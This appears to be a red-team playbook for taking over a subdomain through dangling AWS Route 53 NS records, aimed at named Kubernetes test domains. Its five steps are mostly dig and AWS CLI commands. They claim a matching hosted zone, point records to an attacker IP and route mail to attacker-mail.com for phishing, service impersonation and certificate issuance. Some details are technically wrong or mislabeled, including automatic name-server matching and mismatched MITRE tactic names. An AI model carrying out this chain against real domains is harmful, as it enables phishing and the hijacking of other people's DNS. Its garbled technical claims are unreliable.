

# Subdomain Takeover via Dangling NS Records on AWS Route 53

Multi-stage attack chain demonstrating a complete subdomain takeover workflow in a Kubernetes environment using AWS Route 53 misconfiguration.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 5 |
| Execution Time | ~30 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- AWS CLI (configured with researcher account)
- DNS lookup tools (e.g., dig, nslookup)

### Target Environment

- AWS Route 53 for DNS management
- Kubernetes cluster with test domains (e.g., test-cncf-aws.canary.k8s.io)
- Public DNS delegation

### Initial Access Requirements

- No prior credentials needed for discovery
- AWS account for creating hosted zones
- Network access to public DNS resolvers

## Detailed Attack Procedures

### Step 1: Discover Dangling NS Records
procedure: [[procedures/Discover-Dangling-NS-Records]]

**Objective**: Identify subdomains delegated via NS records to non-existent AWS Route 53 hosted zones.

**Instructions**: Query DNS for the target subdomain to retrieve NS records. Use a DNS lookup tool to check the name servers.

For example, query the subdomain `api.e2e-kops-aws-canary.test-cncf-aws.canary.k8s.io`:

```bash
dig NS api.e2e-kops-aws-canary.test-cncf-aws.canary.k8s.io
```

Inspect the returned NS records for AWS-specific name servers (e.g., ns-*.awsdns-*.com) that may be dangling.

**Expected Output**: List of NS records pointing to potentially deleted hosted zones.

**Success Indicators**:
- NS records returned from AWS Route 53 format
- Initial resolution fails or times out

### Step 2: Verify Hosted Zone Deletion
procedure: [[procedures/Verify-Hosted-Zone-Deletion]]

**Objective**: Confirm the original AWS hosted zone is deleted, leaving the delegation unresolvable.

**Instructions**: Attempt to resolve queries against the dangling NS records. Check AWS documentation or use AWS CLI to verify zone existence (if access available).

For example, test resolution:

```bash
dig @ns-123.awsdns-45.com api.e2e-kops-aws-canary.test-cncf-aws.canary.k8s.io
```

Expect SERVFAIL or NXDOMAIN errors indicating the zone is gone.

**Expected Output**: DNS resolution errors confirming dangling status.

**Success Indicators**:
- Queries to NS servers fail
- No authoritative responses from the zone

### Step 3: Create Matching Hosted Zone
procedure: [[procedures/Create-Matching-Hosted-Zone]]

**Objective**: Register a new AWS Route 53 hosted zone with NS records matching the dangling delegation.

**Instructions**: Use AWS CLI to create a public hosted zone for the parent domain (e.g., test-cncf-aws.canary.k8s.io). Note the auto-generated NS records and ensure they match the dangling ones.

```bash
aws route53 create-hosted-zone --name test-cncf-aws.canary.k8s.io --caller-reference $(date +%s) --hosted-zone-config Comment="Takeover Zone"
```

Retrieve and verify the NS records:

```bash
aws route53 get-hosted-zone --id /hostedzone/Z1234567890ABC
```

**Expected Output**: New hosted zone ID and matching NS records.

**Success Indicators**:
- Hosted zone created successfully
- NS records match the dangling delegation

### Step 4: Take Over Domain Control
procedure: [[procedures/Take-Over-Domain-Control]]

**Objective**: Configure DNS records in the new zone to control the subdomain.

**Instructions**: Add records to the new hosted zone, such as A records for a test subdomain pointing to researcher-controlled IP.

For example, create a record for `test.api.e2e-kops-aws-canary.test-cncf-aws.canary.k8s.io`:

```bash
aws route53 change-resource-record-sets --hosted-zone-id Z1234567890ABC --change-batch file://add-record.json
```

Where `add-record.json` contains:

```json
{
  "Changes": [{
    "Action": "CREATE",
    "ResourceRecordSet": {
      "Name": "test.api.e2e-kops-aws-canary.test-cncf-aws.canary.k8s.io.",
      "Type": "A",
      "TTL": 300,
      "ResourceRecords": [{"Value": "1.2.3.4"}]
    }
  }]
}
```

Verify resolution:

```bash
dig test.api.e2e-kops-aws-canary.test-cncf-aws.canary.k8s.io
```

**Expected Output**: Controlled content resolves via DNS.

**Success Indicators**:
- Custom subdomain resolves to attacker's IP
- Full delegation confirmed

### Step 5: Demonstrate Impact
procedure: [[procedures/Demonstrate-Subdomain-Takeover-Impact]]

**Objective**: Show potential for phishing, email control, and service access using the taken-over DNS.

**Instructions**: Add MX records for email, wildcard A records for subdomains, and use for SSL validation.

Create MX record:

```bash
aws route53 change-resource-record-sets --hosted-zone-id Z1234567890ABC --change-batch file://mx-record.json
```

With `mx-record.json`:

```json
{
  "Changes": [{
    "Action": "CREATE",
    "ResourceRecordSet": {
      "Name": "api.e2e-kops-aws-canary.test-cncf-aws.canary.k8s.io.",
      "Type": "MX",
      "TTL": 300,
      "ResourceRecords": [{"Value": "10 attacker-mail.com."}]
    }
  }]
}
```

Test email reception and access services like Google Docs or Slack using the domain.

**Expected Output**: Email delivery to controlled server; successful service logins or phishing setups.

**Success Indicators**:
- MX records enable email phishing
- Wildcard subdomains allow arbitrary service access
- SSL certs issued via email validation

## Attack Chain Summary

### Key Achievements

1. Identified and exploited dangling NS records for subdomain delegation.
2. Created a new hosted zone to claim DNS authority.
3. Demonstrated high-impact capabilities like phishing and service impersonation.

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[T1583.001]] Domains
- [[Exploit Public-Facing Application]] Exploit Public-Facing Application

### MITRE ATT&CK Tactics

- [[Persistence]] Resource Development
- [[Initial Access]] Initial Access

---
*Last updated: 2023-10-01T00:00:00Z*
